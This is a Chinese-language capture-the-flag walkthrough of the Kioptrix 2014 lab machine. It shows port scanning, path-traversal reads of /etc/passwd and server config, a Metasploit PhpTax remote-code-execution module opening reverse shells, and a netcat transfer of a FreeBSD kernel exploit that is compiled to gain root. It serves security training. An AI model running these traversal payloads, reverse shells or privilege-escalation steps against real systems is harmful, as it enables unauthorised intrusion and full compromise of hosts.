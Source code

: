 将靶机和kali攻击机放在同一个网段

### 信息探测
用户`arp-scan 192.168.159.0/24`发现主机IP为192.168.159.133

#### 端口扫描
```
$ nmap -sT -sV -p 1-65535 192.168.159.0/24
host             port  proto  name  state   info
----             ----  -----  ----  -----   ----
192.168.159.133  22    tcp    ssh   closed  
192.168.159.133  80    tcp    http  open    Apache httpd 2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
192.168.159.133  8080  tcp    http  open    Apache httpd 2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
```

#### web探测
目录探测两个web服务没有发现什么内容，直接访问，发现80端口的web服务主页有路径信息
```
<head>
  <!--
  <META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">
  -->
</head>
```

访问发现一个复杂的应用


#### 漏洞分析
mod_ssl存在漏洞，和kioptrix level 1一样，但是EXP在最新版编译不成功，老版Ubuntu可以，但是kali上仍然不可以用，有依赖问题，只能在老版本ubuntu上用，太麻烦了，试试有没有其他方式

web页面应该可以发现很多漏洞吧

### 漏洞利用
web接口很快就扫描出了任意文件读取漏洞`http://192.168.159.133/pChart2.1.3/examples/imageMap/index.php?Action=ViewPHP&Script=%2f..%2f../etc/passwd`

通过访问`http://192.168.159.133/pChart2.1.3/examples/imageMap/index.php?Action=ViewPHP&Script=%2f..%2f../var/log/httpd-error.log`可以得到路径`/usr/local/etc/apache22/httpd.conf`

访问路径后搜索，可以得到如下内容

```
<VirtualHost *:8080>
    DocumentRoot /usr/local/www/apache22/data2

<Directory "/usr/local/www/apache22/data2">
    Options Indexes FollowSymLinks
    AllowOverride All
    Order allow,deny
    Allow from env=Mozilla4_browser
</Directory>
```

8080端口设置为Mozilla4的浏览器才可以访问

使用BurpSuite，把包的User-Agent改成Mozilla4，访问得到phptax的信息

直接用msf和searchsploit尝试能不能利用

```
msf5 > search phptax

Matching Modules
================

   #  Name                            Disclosure Date  Rank       Check  Description
   -  ----                            ---------------  ----       -----  -----------
   1  exploit/multi/http/phptax_exec  2012-10-08       excellent  Yes    PhpTax pfilez Parameter Exec Remote Code Injection


msf5 > use exploit/multi/http/phptax_exec
msf5 exploit(multi/http/phptax_exec) > set RHOSTS 192.168.159.133
RHOSTS => 192.168.159.133
msf5 exploit(multi/http/phptax_exec) > set RPORT 8080
RPORT => 8080
msf5 exploit(multi/http/phptax_exec) > options

Module options (exploit/multi/http/phptax_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.133  yes       The target address range or CIDR identifier
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /phptax/         yes       The path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   PhpTax 0.8


msf5 exploit(multi/http/phptax_exec) > run

[*] Started reverse TCP double handler on 192.168.159.128:4444 
[*] 192.168.159.1338080 - Sending request...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo CNuGojWxfYDfippn;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Command: echo ZjLBbjOR9KOyZPCI;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "CNuGojWxfYDfippn\r\n"
[*] Matching...
[*] A is input...
[*] Reading from socket B
[*] B: "ZjLBbjOR9KOyZPCI\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.159.128:4444 -> 192.168.159.133:21845) at 2019-09-29 14:58:09 +0800
[*] Command shell session 2 opened (192.168.159.128:4444 -> 192.168.159.133:51615) at 2019-09-29 14:58:09 +0800

whoami
www
```

可以直接远程命令执行

### 后渗透利用
```
$ uname -a 
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```

查看对应操作系统版本是否有提权漏洞
```
$ searchsploit freebsd 9.0 local
FreeBSD 9.0 - Intel SYSRET Kernel Privilege Escalation                                                       | exploits/freebsd/local/28718.c
FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation                                                 | exploits/freebsd/local/26368.c
```

kali机器上
```
root@kali:~# cp /usr/share/exploitdb/exploits/freebsd/local/28718.c .
root@kali:~# nc -lvp 4444 < 28718.c
listening on [any] 4444 ...
Warning: forward host lookup failed for bogon: Unknown host
connect to [192.168.159.128] from bogon [192.168.159.133] 42275
```

目标机器上
```
$ nc -nv 192.168.159.128 > 28718.c
$ gcc -o sysert 28718.c
$ ./sysret
[+] SYSRET FUCKUP!!
[+] Start Engine...
[+] Crotz...
[+] Crotz...
[+] Crotz...
[+] Woohoo!!!
whoami
root
```

在/root目录下有作者的恭喜过关文件

### 其他
获取8080的用户权限后，可以看到/data目录，访问pdf路径，可以看到很多类似shell的命令，怀疑是有后门，不会利用
